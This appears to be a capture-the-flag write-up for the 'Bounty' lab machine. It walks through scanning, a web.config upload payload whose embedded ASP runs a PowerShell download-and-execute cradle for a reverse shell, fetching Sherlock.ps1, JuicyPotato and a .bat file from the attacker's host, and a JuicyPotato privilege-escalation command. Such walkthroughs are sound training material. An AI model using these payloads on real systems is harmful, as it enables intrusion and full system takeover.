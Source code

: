 **Ping**
![[Pasted image 20240626002341.png]]

**Nmap Scans**
```
mapit 10.10.10.93
```

Nmap Default Scan
![[Pasted image 20240626002533.png]]

Nmap Service and Script Scan
![[Pasted image 20240626002627.png]]

Nmap All Port Scan


On Port 80
![[Pasted image 20240626004027.png]]

Gobuster Scan
![[Pasted image 20240626005227.png]]
there is some file transfer.aspx, will check that

On http://10.10.10.93/transfer.aspx
![[Pasted image 20240626004147.png]]
We have an upload functionality

We can upload image files, but couldn't upload any other format
![[Pasted image 20240626005105.png]]
![[Pasted image 20240626005117.png]]

Will try to access the image we have uploaded in /uploadedfiles directory
http://10.10.10.93/uploadedfiles/SecSignal.jpg
![[Pasted image 20240626011455.png]]

But we can't upload malicious jpg file using Image magic trick



But we can upload .config file, will upload .config file with the reverse shell payload
```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.10/rev.ps1')") %>
```
![[Pasted image 20240626011653.png]]

Will access that file to trigger the reverse shell
![[Pasted image 20240626011735.png]]

![[Pasted image 20240626011752.png]]

Got reverse Shell
![[Pasted image 20240626011828.png]]

The file are hidden, so...
```
gci -force
```
![[Pasted image 20240626012335.png]]

User.txt
![[Pasted image 20240626012425.png]]


Will jump to Privilege Escalation.....!

Our Privileges
```
whoami /priv
```
![[Pasted image 20240626020812.png]]

System info
```
systeminfo
```
![[Pasted image 20240626020900.png]]

Will run the Sherlock.ps1
```
iex(new-object net.webclient).downloadstring('http://10.10.14.10/Sherlock.ps1')
```
```
Find-AllVulns
```
![[Pasted image 20240626021715.png]]
![[Pasted image 20240626021730.png]]
![[Pasted image 20240626021745.png]]

Will first try Impersonate privilege and the OS version and is looks likely vulnerable, So will use Juicy Potato.

Will transfer the JuciyPotato and our .bat file to the target machine
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.10/JuicyPotato.exe', 'C:\windows\temp\jucy.exe')
```
```
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.10/rev.bat', 'C:\windows\temp\rev.bat')
```

CLSID:https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/

Now will run the exploit
```
./jucy.exe -l 443 -p C:\windows\temp\rev.bat -t * -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```
![[Pasted image 20240626021321.png]]

We got Reverse shell
![[Pasted image 20240626021343.png]]

Root.txt
![[Pasted image 20240626021424.png]]



Done With Bounty.....:)

